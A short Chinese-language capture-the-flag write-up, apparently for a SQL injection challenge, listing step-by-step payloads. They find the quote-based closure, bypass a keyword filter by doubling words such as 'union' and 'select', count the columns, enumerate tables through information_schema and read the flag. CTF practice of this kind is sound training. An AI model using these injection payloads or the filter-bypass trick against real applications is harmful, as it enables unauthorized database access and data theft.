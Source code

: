 传入 `admin` `admin"` 报错,猜测闭合方式为`"`

传入 `1" oorr 1=1 oorrder by 1#` `1` 正常回显

传入 `1" oorr 1=1 oorrder by 2#` `1` 正常回显

传入 `1" oorr 1=1 oorrder by 3#` `1` 正常回显

传入 `1" oorr 1=1 oorrder by 4#` `1` 报错,可知一共三列

传入 `1" and 1=1 ununionion seselectlect 1,2,grrooup_concat(table_name) frroom infoorrmation_schema.tables whwhereere table_schema=database()#` `1` 得知共有两个table分别为`flag`和`users`

传入`1" and 1=1 ununionion selselectect 1,2,grrooup_concat(flflagag) frroom flflagag#` `1` getflag